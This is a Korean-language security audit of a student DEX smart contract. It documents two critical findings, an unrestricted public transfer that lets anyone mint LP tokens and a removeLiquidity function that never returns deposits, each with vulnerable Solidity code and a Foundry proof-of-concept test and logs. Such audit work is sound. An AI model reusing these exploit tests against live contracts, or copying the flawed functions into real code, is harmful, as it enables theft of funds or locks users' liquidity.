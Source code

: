 # 김한기

## public transfer

**************critical (파급력: high, 공격 난이도: low)**************

```solidity
function transfer(address to, uint256 lpAmount) external returns (bool) {
        require(lpAmount > 0);

        lpt.mint(payable(address(this)), lpAmount);
        lpt.transfer(payable(to), lpAmount);

        return true;
    }
```

한기님 같은 경우에는 ERC20을 상속받지 않고 lpt토큰을 따로 유지하신다. LPT token의 owner가 DEX이고 mint는 owner밖에 할 수 없지만 transfer가 public으로 선언되어 잇는 상황에서 mint를 아무나 할 수 있게 된다.

#### PoC

```solidity
function testTransferVisibility() external {
        vm.startPrank(user1);
        dex.transfer(address(this), 1000 ether);
        
        (address lptaddr, address oracleaddr) = dex.getInfo();
        ERC20 lpt = ERC20(lptaddr);
        
        uint amount = lpt.balanceOf(address(this));
        console.log("%d", amount);
        amount = lpt.totalSupply();
        console.log("%d", amount);
        vm.stopPrank();
        assertTrue(!(amount == 1000 ether), "testTransferVisibility Error");
    }
```

```solidity
[FAIL. Reason: Assertion failed.] testTransferVisibility() (gas: 89969)
Logs:
  1000000000000000000000
  1000000000000000000000
  Error: testTransferVisibility Error
  Error: Assertion Failed
```

## removeLiquidity nothing happend

******************************************************************************************************critical (파급력: critical, 공격난이도:???)******************************************************************************************************

```solidity
function removeLiquidity(
        uint256 LPTokenAmount,
        uint256 minimumTokenXAmount,
        uint256 minimumTokenYAmount
    ) external returns (uint rx, uint ry) {
        require(LPTokenAmount > 0);
        require(minimumTokenXAmount >= 0);
        require(minimumTokenYAmount >= 0);
        require(lpt.balanceOf(msg.sender) >= LPTokenAmount);

        (uint balanceOfX, uint balanceOfY) = pairTokenBalance();

        uint lptTotalSupply = lpt.totalSupply();

        rx = balanceOfX * LPTokenAmount / lptTotalSupply;
        ry = balanceOfY * LPTokenAmount / lptTotalSupply;

        require(rx >= minimumTokenXAmount);
        require(rx >= minimumTokenYAmount);
    }
```

removeLiquidity에 tokenX, tokenY를 보내주거나, LP토큰을 소각하는 과정이 없이, 얼마를 받을 수 있는지만 나와 있다.

이 기능이 없기 때문에 피해자는 해당 DEX에 유동성을 공급할 경우 공급한 유동성을 돌려받을 수 없다.

#### PoC

```solidity
function testIsRemoveLiquidityWork() external{
        uint pre_x = tokenX.balanceOf(address(this));
        uint pre_y = tokenY.balanceOf(address(this));
        (address lptaddr, address oracleaddr) = dex.getInfo();
        ERC20 lpt = ERC20(lptaddr);
        
        uint lp1 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        (uint rx, uint ry) = dex.removeLiquidity(lp1, 0, 0);
        console.log("rx: %d", rx);
        console.log("ry: %d", ry);
        
        uint lp = lpt.balanceOf(address(this));
        console.log("lp: %d", lp);
        assertTrue(!(lp == lp1));
        
        uint post_x = tokenX.balanceOf(address(this));
        uint post_y = tokenY.balanceOf(address(this));
        console.log("pre_x: %d", pre_x);
        console.log("pre_y: %d", pre_y);
        console.log("post_x: %d", post_x);
        console.log("post_y: %d", post_y);
        assertTrue(pre_x == post_x);
        assertTrue(pre_y == post_y);
    }
```

```solidity
[FAIL. Reason: Assertion failed.] testIsRemoveLiquidityWork() (gas: 207774)
Logs:
  priceOfX: 1000
  rx: 1000000000000000000000
  ry: 1000000000000000000000
  lp: 1000000000000000000000000
  Error: Assertion Failed
  pre_x: 10000000000000000000000000
  pre_y: 10000000000000000000000000
  post_x: 9999000000000000000000000
  post_y: 9999000000000000000000000
  Error: Assertion Failed
  Error: Assertion Failed
```
